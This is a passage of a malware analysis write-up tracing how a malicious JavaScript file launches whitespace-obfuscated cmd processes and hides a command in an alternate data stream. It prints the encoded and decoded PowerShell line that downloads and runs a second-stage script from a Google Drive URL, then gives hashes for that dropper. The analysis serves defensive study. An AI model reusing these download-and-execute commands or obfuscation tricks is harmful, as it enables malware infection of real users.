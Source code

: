 Once double-clicked by the victim, it will run as follows:

1\. Gets executed via the command line:

> ```"C:\Windows\System32\WScript.exe" "C:\Users\%username%\Downloads\wallets-sorted\US[1F92332B4E490152BBA08692ABB682A4] [2022-07-25T00_13_52.6672057]\FileGrabber\Users\Administrator\Desktop\Meta.js”```{: .filepath }

2\. The resulting command will invoke three cmd.exe processes and write a shell command into a “.avi” file. It then executes another cmd.exe process that executes that file:

> ```"C:\Windows\System32\cmd.exe" Cmd 	     	 	 		 		  	 			  	 	  	  			/c    	    		 						 	 	cmd 	 	 	  	     										 		  				 		 			 	 	 	 				/C   			      					 				 		   	  EcHO 	  	    		 		  		    	  				   			POwERsHEll 	 	 		  	  					   	 	 		 						 	 	 	   			   	 	 		  		 -Ec aQBFAFgAKAAoAG4AZQBXAC0ATwBiAEoARQBDAFQAIAAJAAkACQAgACAACQAgACAAIAAJACAAIAAJACAAIAAJAAkAIAAJACAACQAgACAAIAAgACAAIAAJAG4AZQB0AC4AdwBFAGIAYwBsAEkAZQBOAHQAKQAuAEQAbwB3AG4AbABPAEEARABTAFQAUgBpAE4ARwAoACcAaAB0AHQAcABzADoALwAvAGQAcgBpAHYAZQAuAGcAbwBvAGcAbABlAC4AYwBvAG0ALwB1AGMAPwBpAGQAPQAxAGMAcQBRAGsAUgB1AFMAWABCAEsAcAByAGIAZQBfAGsAOQB0ADcAZwA3AGQATwBPADQAdgA3AEkAdgBXAG0ANgAmAGUAeABwAG8AcgB0AD0AZABvAHcAbgBsAG8AYQBkACcAKQApAA==   	   	  	 		  			   			  	 	   	     		  	>    	 	 				 			 	     					 			  			    				  	 			 	    	 	%LOCALAPPDATA%CU666rZi4UOVMoxz6c01t32uua51pznD9fw1Sc7r73Hc4cPU80Ysaj813h6RPH3M.png:OvP4k5Q2Q6Y1AT9mrj1U6eehRxudHKrIAPC9UxQ83pP4iuoP54G7PSeBxy02aJ11.avi 	 	      	 					 					   	 	     	    	& 	 			 				 	 				 		 	  		 		  			 	 							 			 		      		cmD 		 	 		 	   - 				 		 		 		     		  	  		 	      	  				 			   			   	 	 	 	<      	  		 	 		%LOCALAPPDATA%CU666rZi4UOVMoxz6c01t32uua51pznD9fw1Sc7r73Hc4cPU80Ysaj813h6RPH3M.png:OvP4k5Q2Q6Y1AT9mrj1U6eehRxudHKrIAPC9UxQ83pP4iuoP54G7PSeBxy02aJ11.avi```{: .filepath }

3\. The executed “.avi” file contains a command that invokes the powershell.exe process and executes a base64 encoded command

> ```POwERsHEll  	 	 		  	  					   	 	 		 						 	 	 	   			   	 	 		  		 -Ec aQBFAFgAKAAoAG4AZQBXAC0ATwBiAEoARQBDAFQAIAAJAAkACQAgACAACQAgACAAIAAJACAAIAAJACAAIAAJAAkAIAAJACAACQAgACAAIAAgACAAIAAJAG4AZQB0AC4AdwBFAGIAYwBsAEkAZQBOAHQAKQAuAEQAbwB3AG4AbABPAEEARABTAFQAUgBpAE4ARwAoACcAaAB0AHQAcABzADoALwAvAGQAcgBpAHYAZQAuAGcAbwBvAGcAbABlAC4AYwBvAG0ALwB1AGMAPwBpAGQAPQAxAGMAcQBRAGsAUgB1AFMAWABCAEsAcAByAGIAZQBfAGsAOQB0ADcAZwA3AGQATwBPADQAdgA3AEkAdgBXAG0ANgAmAGUAeABwAG8AcgB0AD0AZABvAHcAbgBsAG8AYQBkACcAKQApAA==```{: .filepath }

4\. The Base64-decoded command invokes another code downloaded as a string from a Google Drive URL:

> ```iEX((neW-ObJECT	net.wEbclIeNt).DownlOADSTRiNG('https://drive.google.com/uc?id=1cqQkRuSXBKprbe_k9t7g7dOO4v7IvWm6&export=download'))```{: .filepath }

The downloaded and executed code is a PowerShell script used in the next phase of the attack.
<br /><br />

## 3. Second-Stage Dropper

The downloaded code is named with the date from the day after I received the message:

* **File name:** 26.07.2022
* **MD5:** 8db6a8bc3bef287f02dc0b415218c128
* **SHA256:** b58200945412fbbc371dae652b800741f411183c14b50ce99b2d89675b2e9ae6
* **File Type:** Malicious Powershell script

The PowerShell script has a big Base64-encoded string that starts with “TVq”, which is transformed to “MZ” after decoding. Therefore, the string is a Base64-encoded Microsoft Windows PE file.
